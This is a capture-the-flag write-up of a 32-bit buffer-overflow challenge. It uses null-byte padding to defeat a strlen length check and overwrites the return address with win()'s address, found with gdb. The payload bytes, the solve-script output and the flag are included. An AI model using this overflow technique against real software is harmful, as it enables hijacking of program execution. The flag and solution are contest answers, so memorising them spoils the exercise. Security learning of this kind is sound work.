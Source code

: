 # GryphonCTF_2017: Tsundeflow

**Category:** Pwn
**Points:** 80
**Description:**

>This one is a handful.
Connect: `pwn2.chal.gryphonctf.com 17343`
_Creator - @LFlare_

## Write-up
As the second pwn challenge, this one is solvable by exploiting the buffer overflow vulnerability to control program execution to where we want it to execute. For the purpose of simplicity, we already have a `win` function we want to get to. Calculating the amount of junk before reaching `eip` is as simple as `32` size of buffer + `4` address of the stack frame pointer, to reach `36`.

There is however, one more catch. The usage of `strlen` to check for buffer overflows, but wait! `strlen` counts characters in a `char[]`, and `char[]` ends with a `\x00` null byte, so we can trick the program into thinking we have lesser characters than there really is! So, we have to use `36` bytes of `\x00`.

Thus, by giving `36` bytes, we get to the `eip` value, which we will populate with `win()`'s address

Now, to find the address of `win()`, we can load it up in `gdb`,

    # gdb tsundeflow
    GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
    Copyright (C) 2016 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    gdb> p &win
    $1 = (<text variable, no debug info> *) 0x80484eb <win>

Bingo! Now all we have to do is code it little-endian and submit it as our payload with the junk data. `0x80484eb` becomes `\xeb\x84\x04\x08`.

Another way of getting the address involves [pwntools](https://github.com/Gallopsled/pwntools), which is represented in the [solutions](solve.py).

    # ./solve.py 
    [*] '/root/repos/gryphonctf_2017_writeup/pwn/tsundeflow_80/tsundeflow-redacted-fb0908a3d9a30c4029acfdfd5bdbe313'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE
    [+] Cracking SOCKS5...: GCTF{51mpl3_buff3r_0v3rfl0w_f0r_75und3r35}
    [+] Opening connection to pwn2.chal.gryphonctf.com on port 17343: Done
    [*] Closed connection to pwn2.chal.gryphonctf.com port 17343

Therefore, the flag is `GCTF{51mpl3_buff3r_0v3rfl0w_f0r_75und3r35}`.
